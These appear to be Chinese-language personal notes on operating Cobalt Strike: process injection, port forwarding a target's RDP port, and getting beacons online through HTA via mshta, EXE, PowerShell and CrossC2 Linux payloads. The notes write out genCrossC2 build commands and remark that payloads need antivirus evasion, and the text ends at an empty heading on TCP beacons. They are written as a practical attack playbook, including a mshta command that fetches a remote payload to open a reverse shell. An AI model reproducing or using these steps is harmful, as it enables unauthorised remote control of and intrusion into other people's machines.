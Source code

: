 [https://blog.csdn.net/limb0/article/details/103215755](https://blog.csdn.net/limb0/article/details/103215755)<br />[https://blog.csdn.net/qq_26091745/article/details/98097401](https://blog.csdn.net/qq_26091745/article/details/98097401)<br />EXE、powershell、vba是什么东西<br /> <br />inject 5732 x64  cs进程迁移<br /> <br />cs端口转发 把内网ip的3389转发到389<br />rportfwd 389 192.168.1.30 3389
<a name="aelqz"></a>
## 上线攻击
<a name="5O1L4"></a>
### Hta上线
第一步<br />Listen 添加反弹监听的payload<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380106824-f8e6648e-7de6-4c8d-9098-2dd9fec5b70b.png#align=left&display=inline&height=203&originHeight=405&originWidth=732&size=154796&status=done&style=none&width=366)<br />第二步<br />Packages处添加攻击模式<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380115928-934bf5a3-afc2-4c6b-b0cb-b317e6a05cdd.png#align=left&display=inline&height=150&originHeight=300&originWidth=518&size=87420&status=done&style=none&width=259)<br />攻击模式中有三种不同的执行方式<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380122798-2a18670c-1fa0-460d-90e6-71f656cc9e97.png#align=left&display=inline&height=133&originHeight=265&originWidth=477&size=55474&status=done&style=none&width=238.5)<br />当时是选了powershell，然后用HOST file注入生成的HTA<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380131721-ceb56bf2-a5ab-4029-a884-4567fcd88f79.png#align=left&display=inline&height=160&originHeight=320&originWidth=447&size=89837&status=done&style=none&width=223.5)<br />然后在靶机执行mshta http://得到反弹shell<br />右击选择interact进入命令框，命令框执行要shell+命令   例如 shell ipconfig<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380142607-f1efd41c-fd38-49ea-8e2d-8b7a01dee5c2.png#align=left&display=inline&height=213&originHeight=425&originWidth=888&size=90157&status=done&style=none&width=444)<br /> <br /> <br />**启动服务端—>在客户端连接服务端—>创建listener—>创建攻击载荷(attack→packages)—>投递载荷—>靶机下载执行—>靶机上线—>拿到shell**<br />** **
<a name="IyfD9"></a>
### **Exe上线**
![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380155020-59273df0-eb72-4797-a8ff-61623ecdd608.png#align=left&display=inline&height=192&originHeight=383&originWidth=711&size=153075&status=done&style=none&width=355.5)<br />这个十分简单，生成后上传到目标机器然后执行就ok，但是要做免杀<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380165639-df84dd63-5d01-411a-bfcb-a6514ecf10af.png#align=left&display=inline&height=195&originHeight=390&originWidth=619&size=143381&status=done&style=none&width=309.5)
<a name="JViFU"></a>
### Powershell上线
![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380178134-a62ec618-1969-497b-90ac-316d69a0a411.png#align=left&display=inline&height=186&originHeight=372&originWidth=717&size=153414&status=done&style=none&width=358.5)<br />直接点击生成后复制路径，然后在目标机器上运行就可以<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380187362-22bd2395-0f87-426e-b066-5b2eb36a550b.png#align=left&display=inline&height=213&originHeight=425&originWidth=630&size=144533&status=done&style=none&width=315)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380195655-e1338e94-d1e4-4768-96b0-e55b9a2a07fa.png#align=left&display=inline&height=129&originHeight=257&originWidth=575&size=75831&status=done&style=none&width=287.5)
<a name="LfPq3"></a>
### CrossC2上线linux主机
**旧版**:<br />**必须要HTTPS**<br />**而且cobaltstrike的keys文件要和genCrossC2同一个目录下**<br />**![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1622646920389-fc135f91-505c-4797-abdb-b1782090c255.png#align=left&display=inline&height=129&originHeight=172&originWidth=620&size=70720&status=done&style=none&width=465)**<br />windows/beacon_https/reverse_https 类型的beacon<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380210921-dae6f3ab-befd-4e6f-8ae9-8897db38e5cb.png#align=left&display=inline&height=174&originHeight=347&originWidth=583&size=71431&status=done&style=none&width=291.5)<br />Vps生成 ./genCrossC2.Linux监听的IP 监听的端口 null null Linux x64 test<br />发送到靶机执行 ./test （可能要赋予权限，也可能会有报错）

**新版本 (注意Linux不是linux)**<br />2.2 只支持4.1以上的CS<br />root@kali:~/CrossC2# ./genCrossC2.Linux ip 端口 .cobaltstrike.beacon_keys null Linux x64 usr<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615130945191-cf7b37bf-ab45-4c13-bb93-78688d4b2432.png#align=left&display=inline&height=186&originHeight=372&originWidth=767&size=59613&status=done&style=none&width=383.5)

<a name="xuJUR"></a>
### 内网目标机子不出网，也不解析DNS的情况上线CS(TCP beacon)
